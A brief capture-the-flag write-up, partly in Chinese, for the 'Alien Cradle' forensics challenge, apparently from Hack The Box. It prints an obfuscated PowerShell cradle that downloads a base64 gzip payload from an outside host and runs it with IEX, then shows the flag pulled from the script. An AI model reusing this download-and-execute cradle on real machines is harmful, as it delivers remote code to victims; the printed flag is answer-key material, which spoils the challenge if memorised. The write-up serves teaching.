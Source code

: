# Alien Cradle

:::note CHALLENGE DESCRIPTION

VERY EASY

In an attempt for the aliens to find more information about the relic, they launched an attack targeting Pandora's close friends and partners that may know any secret information about it. During a recent incident believed to be operated by them, Pandora located a weird PowerShell script from the event logs, otherwise called PowerShell cradle. These scripts are usually used to download and execute the next stage of the attack. However, it seems obfuscated, and Pandora cannot understand it. Can you help her deobfuscate it?

:::

附件为一份 Powershell 脚本

```powershell
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};
$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');
$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));
$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

从中就能得到 flag

```shell
PowerShell 7.4.1
PS C:\Users\Randark> 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```

```plaintext title="Flag"
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```
